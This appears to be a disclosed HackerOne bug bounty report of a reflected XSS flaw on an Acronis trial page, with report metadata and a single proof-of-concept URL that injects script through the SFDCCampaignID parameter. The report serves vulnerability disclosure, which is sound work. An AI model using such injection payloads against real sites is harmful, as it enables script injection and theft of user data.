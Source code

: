 # Reflected XSS in https://www.acronis.com/products/cyber-protect/trial/

## Report Details
- **Report ID**: 1891926
- **URL**: https://hackerone.com/reports/1891926
- **State**: Closed
- **Severity**: low
- **Submitted**: 2023-03-04T08:43:03.652Z
- **Disclosed**: 2024-11-20T08:19:36.918Z

## Reporter
- **Username**: tomblorg
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: acronis

## Vulnerability Information
Enter:
https://www.acronis.com/products/cyber-protect/trial/?SFDCCampaignID=zz`;(alert)();//

* will only work outside of USA (I've tried several countries with VPN)

## Impact

Leaking users data and and modify the webpage.

## Attachments
- arconis-xss.JPG
